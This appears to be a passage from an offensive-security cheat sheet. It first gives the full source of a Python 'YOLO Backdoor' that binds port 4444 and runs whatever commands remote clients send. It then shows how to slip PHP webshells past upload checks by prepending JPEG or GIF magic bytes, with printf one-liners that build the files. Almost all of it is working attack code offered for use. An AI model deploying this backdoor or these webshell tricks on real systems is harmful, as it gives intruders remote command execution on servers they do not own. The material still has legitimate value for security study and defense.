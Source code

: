 ```

```
import sys,socket,time,re,subprocess,os

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1) 
sock.bind(('0.0.0.0',4444))
sock.listen(5)
conn,addr = sock.accept()
conn.send('== YOLO Backdoor ==\n\n>')
while 1:         
    data = conn.recv(1024)
    cmd = data.strip().split(' ')
    if cmd[0] == 'cd':
        os.chdir(cmd[1])
    elif cmd[0] in ('exit'):
        break
    else:
        conn.send(subprocess.check_output(cmd)+'\n>') 
conn.close()
sock.shutdown(socket.SHUT_RDWR)
sock.close()
```




<!--- category: Webshell --->
<!--- id: imgwebshell --->
<!--- title: File upload Webshell : Jpeg --->
<!--- keywords:  --->
## File upload Webshell : Jpeg

If you can upload a jpg file, it is possible to hide a webshell in it.<br/>  
A jpeg file is identified by its first bytes which have the value: ffd8ffe0  <br/>
To generate a file that will be identified as having a valid Jpeg header:
```
printf &quot;\xff\xd8\xff\xe0&lt?php system('id'); ?>&quot; > webshell.jpg
```

This file will be recognized as a jpg file
```
$ file webshell.jpg 
webshell.jpg: JPEG image data
```




<!--- category: Webshell --->
<!--- id: imgwebshell2 --->
<!--- title: File upload Webshell : Gif --->
<!--- keywords:  --->
## File upload Webshell : Gif

A Gif file is identified by its first bytes which have the value: GIF89a;  <br/>
To generate a file that will be identified as having a valid gif header:<br/>
```
printf &quot;GIF89a;&lt?php system('id'); ?>&quot; > webshell.gif
```

This file will be recognized as a gif file
```
$ file webshell.gif 
webshell.gif: GIF image data